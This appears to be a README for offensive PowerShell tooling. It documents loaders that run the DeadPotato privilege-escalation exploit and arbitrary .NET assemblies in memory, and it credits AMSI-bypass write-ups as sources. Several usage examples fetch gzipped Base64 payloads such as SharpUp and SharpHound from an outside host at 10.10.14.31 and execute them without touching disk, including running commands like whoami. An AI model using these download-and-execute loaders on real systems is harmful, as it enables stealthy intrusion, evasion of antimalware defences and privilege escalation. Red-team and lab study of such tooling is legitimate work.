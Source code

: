 ### Inspiration and code that has been incorporated into these scripts

- https://thalpius.com/2021/10/14/microsoft-windows-antimalware-scan-interface-bypasses/
- https://www.rewterz.com/blog/how-i-bypassed-amsi-statically-using-windbg
- https://rxored.github.io/post/csharploader/bypassing-amsi-with-csharp/#amsiscanbuffer
- https://medium.com/@sam.rothlisberger/amsi-bypass-memory-patch-technique-in-2024-f5560022752b

---

- **Invoke-DeadPotato** – A specific loader for the DeadPotato exploit
- **Invoke-InMemoryDotNet** – A generalized loader for any .NET assembly with a static `Main(string[] args)` method.


## Invoke-DeadPotato

`Invoke-DeadPotato` is a specialized PowerShell loader designed to execute the **DeadPotato** .NET exploit (or any similarly structured binary) directly from memory. It supports embedded or remotely hosted gzipped+Base64 payloads.

### Features

- Loads DeadPotato (or similar tool) from Base64+gzipped payload
- Executes in-memory without touching disk
- Allows command-line arguments (e.g., `-cmd whoami`)
- Captures console output and returns result

### Parameters

| Parameter    | Description                                      |
|-------------|--------------------------------------------------|
| `-Arguments` | Command-line string to pass to DeadPotato        |
| `-UseRemote` | Optional URL to load gzipped+Base64 binary       |

### Examples

#### Run embedded DeadPotato
```powershell
Invoke-DeadPotato -Arguments "-cmd whoami"
```

#### Download and execute
```powershell
Invoke-DeadPotato -UseRemote "http://10.10.14.31/dp.gz.b64" -Arguments "-cmd whoami"
```

### Notes

- The class name must be `DeadPotato.Program` with a public static `Main` method.
- You must insert a valid gzipped Base64-encoded payload into the `$b64` variable or provide a URL to it.
- Output is captured and returned as a string.


## Invoke-InMemoryDotNet (not extensively tested yet)

`Invoke-InMemoryDotNet` is a PowerShell loader that dynamically executes any .NET assembly in memory. It supports embedded payloads or remote retrieval via URL. The assembly must expose a public static `Main(string[] args)` method.

### Features

- Executes gzipped + Base64-encoded .NET assemblies entirely in memory
- Supports embedded payload or remote download via HTTP/S
- Captures and returns all `Console.WriteLine` output
- Generic support for any .NET tool with a `Main` entry point (e.g., SharpUp, SharpHound, Seatbelt)

### Parameters

| Parameter    | Description                                       |
|-------------|---------------------------------------------------|
| `-Arguments` | String of arguments to pass to the Main method    |
| `-UseRemote` | URL pointing to a gzipped+Base64-encoded payload  |
| `-TypeName`  | Optional: class name containing the Main method   |
| `-MethodName`| Optional: method to invoke (default: `Main`)      |

### Examples

#### Run embedded payload
```powershell
Invoke-InMemoryDotNet -Arguments "-f all"
```

#### Download SharpUp and run
```powershell
Invoke-InMemoryDotNet -UseRemote "http://10.10.14.31/SharpUp.gz.b64" -Arguments "-f all"
```

#### Execute SharpHound collector
```powershell
Invoke-InMemoryDotNet -UseRemote "http://10.10.14.31/SharpHound.gz.b64" -Arguments "--CollectionMethod All --ZipFileName loot.zip"
```
